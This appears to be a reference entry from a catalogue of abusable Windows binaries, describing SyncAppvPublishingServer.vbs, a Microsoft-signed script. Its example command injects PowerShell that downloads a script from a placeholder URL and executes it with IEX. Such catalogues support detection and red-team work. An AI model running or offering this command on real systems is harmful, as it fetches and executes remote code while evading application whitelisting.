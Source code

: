 ## SyncAppvPublishingServer.vbs

* Functions: Execute

```
SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
```

Acknowledgements:
* Nick Landers - @monoxgas
* Casey Smith - @subTee

Code sample:

Resources:
* https://twitter.com/monoxgas/status/895045566090010624
* https://twitter.com/subTee/status/855738126882316288

Full path:
```
C:\Windows\System32\SyncAppvPublishingServer.vbs
```

Notes:
Just like [SyncAppvPublishingServer.exe](OSBinaries/Syncappvpublishingserver.md) this starts a Powershell script with the provided arguments.

Included with Windows 10 Enterprise. Script is catalog signed by Microsoft.
 
